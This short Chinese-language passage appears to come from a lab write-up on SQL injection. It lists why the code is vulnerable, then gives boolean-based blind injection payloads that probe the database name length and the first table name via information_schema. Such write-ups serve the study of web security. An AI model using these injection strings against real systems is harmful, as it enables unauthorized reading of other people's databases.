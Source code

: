 - 没有进行预编译
- 用户数据拼接了代码，没有实现代码、数据分离
- 想要利用COOKIE来增加安全系数，抓包可绕过

#### 漏洞利用
- 采用基于布尔的盲注

- 将id改为`1’ and length(database())=4 #`
  - 显示存在，说明数据库名的长度为4个字符；</b>![](./img/blind-4.png)
- 将id改为`1’ and length(substr(( select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9 #`
  - 显示存在，说明数据中的第一个表名长度为9个字符；</b>![](./img/blind-5.png)